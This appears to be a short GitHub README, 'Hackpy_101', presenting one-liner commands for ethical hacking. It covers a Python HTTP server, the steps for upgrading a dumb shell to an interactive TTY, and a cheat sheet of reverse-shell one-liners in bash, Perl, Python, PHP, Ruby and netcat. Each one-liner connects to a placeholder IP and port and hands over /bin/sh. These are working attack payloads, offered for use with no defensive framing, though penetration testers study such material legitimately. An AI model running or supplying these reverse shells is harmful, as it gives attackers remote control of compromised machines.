 # Hackpy_101
Contains Various one liner scripts of python to help you in the Ethical hacking.

# For HTTP SERVER
Python2 :- python -m SimpleHTTPServer <port>
Python3 :- python -m  http.server <port>
To open a sever on specific IP we use -- bind 
For ex- python -m http.server port --bind <IP> 
If this doesnt work use python2 version.

# For Requesting a Interactive Shell in Python
python -c 'import pty; pty.spawn("/bin/bash")'
This will upgrade a dumb shell to an interactive one
If this doesnt work for you then try doing this step wise 

**In reverse shell**
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
**In Kali**
$ stty raw -echo
$ fg

**In reverse shell**
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
  
# THIS IS WHAT YOU CALL A CONNECTOR TO A LISTENER
**THIS IS USED FOR REVERSE CONNECTIONS.
IF YOU DONT KNOW WHAT THIS MEANS --> "GOOGLE IT!!"
YOU CAN USE EITHER OF THE METHODS, GIVEN THAT THE SPECIFIC LANGUAGE IS INSTALLED IN YOUR SYSTEM**
# BASH
bash -i >& /dev/tcp/IP/PORT 0>&1

# PERL
perl -e 'use Socket;$i="IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP
php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'

# Ruby
ruby -rsocket -e'f=TCPSocket.open("IP",PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# Netcat
nc -e /bin/sh IP PORT
--------------x-------x--------xx-------------xxx----------x------------------x-----------------xxx---------------------x---------------------xxxxx--------x---------------------

